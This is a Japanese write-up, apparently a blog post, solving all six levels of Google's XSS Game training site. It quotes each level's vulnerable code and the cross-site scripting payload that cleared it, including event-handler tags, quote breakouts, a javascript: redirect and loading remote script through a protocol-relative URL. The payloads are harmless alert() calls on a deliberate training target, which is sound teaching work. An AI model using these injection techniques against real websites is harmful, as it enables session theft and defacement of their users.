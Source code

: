 ```yaml
---
title: "XSS Gameをやってみた"
createdAt: "2024-06-14"
category:
  - "CTF"
---
```


# XSS Game とは

Google が公開している XSS を実際に行えるサイト。
https://xss-game.appspot.com/

# level 1

```jsx
# Our search engine broke, we found no results :-(
message = "Sorry, no results were found for <b>" + query + "</b>."
message += " <a href='?'>Try again</a>."
```

ソースコードの 45 行目を見てみると、"<" や ">" の文字を変換するといった XSS 対策がされておらず、入力した値がそのまま評価されてしまうので、`<script>alert()</script>` と javascript を入力すると、alert 文が実行されクリアできました。

# level 2

level 1 と同様に`<script>alert()</script>` を入力してみますが、alert は表示されません。

```jsx
html += "<blockquote>" + posts[i].message + "</blockquote";
```

index.html の 30 行目を見てみると script タグをフィルタリングしているようなので script タグ以外で alert を実行させる必要があります。

やり方はいろいろあるみたいです。

`<img src=/ onerror=alert()>`

`<video src=/ onerror=alert()></video>`

`<svg onload=alert()>`

img タグのやりかたでクリアできました

# level 3

早速ソースコードを見てみます

```html
<div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
<div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
<div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>
```

タブをクリックすると`chooseTab()` が呼ばれていることがわかります。

`chooseTab()` を見てみると受け取った引数で画像のファイル名を指定している部分がありました。ここに level2 同様のやり方が使えそうです。

```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

`aaa' onerror=alert()>//`

とするとクリアできました。

# level 4

タイトルに「timer」とあるように入力した秒数だけカウントしてから`alert()`が呼ばれているようです。

ソースコードを見てみると、`timier.html`の 21 行目に入力した内容が入るようになっていました。

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

あとに続く`)` や`'` を適切に当てはめると

`3');alert('` でクリアできました。

# level 5

メールアドレスを入力するページで、`Next >>`をクリックしたときにリダイレクトされていました。

![Screenshot from 2024-06-14 21-26-59.png](/posts/03_xss_game/Screenshot_from_2024-06-14_21-26-59.png)

ソースコードを見てみるとリダイレクトするページを指定するために URL パラメータが使用されていることがわかります。

```html
<a href="{{ next }}">Next >></a>
```

以下のように指定するとクリアできました。
`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")`

# level 6

ソースコードを見てみます。

```jsx
// Take the value after # and use it as the gadget filename.
function getGadgetName() {
  return window.location.hash.substr(1) || "/static/gadget.js";
}

includeGadget(getGadgetName());
```

まずはじめに`getGadgetName()`が呼び出され、`https://xss-game.appspot.com/level6/frame#` に続いて入力したものを`url` として`includeGadget()` に渡しています。

```jsx
// This will totally prevent us from loading evil URLs!
if (url.match(/^https?:\/\//)) {
  setInnerText(
    document.getElementById("log"),
    'Sorry, cannot load a URL containing "http".'
  );
  return;
}

// Load this awesome gadget
scriptEl.src = url;
```

次に`includeGadget()` 内で`url` に「http」や「https」が含まれていないかチェックして、含まれていたらリターン、含まれていなければ`url` のリンク先にある JavaScript ファイルを読み込みます。

```jsx
// Show log messages
scriptEl.onload = function () {
  setInnerText(document.getElementById("log"), "Loaded gadget from " + url);
};
scriptEl.onerror = function () {
  setInnerText(
    document.getElementById("log"),
    "Couldn't load gadget from " + url
  );
};

document.head.appendChild(scriptEl);
```

その後に`onload` と`onerror` をセットして`<script>`要素を`<head>`セクションに追加しています。

これを見ると`url` に`alert()` が記述されたファイルのリンクを渡してやれば良さそうです。

`alert()`が記述されたファイルのアップロードは[tempsend.com](http://tempsend.com)を利用しました。

`https://xss-game.appspot.com/level6/frame#//tempsend.com/kdccm/e5469d/1718409462/alert.js`

のように入力するとクリアできました。

# 全クリ

![Screenshot from 2024-06-15 09-27-18.png](/posts/03_xss_game/Screenshot_from_2024-06-15_09-27-18.png)
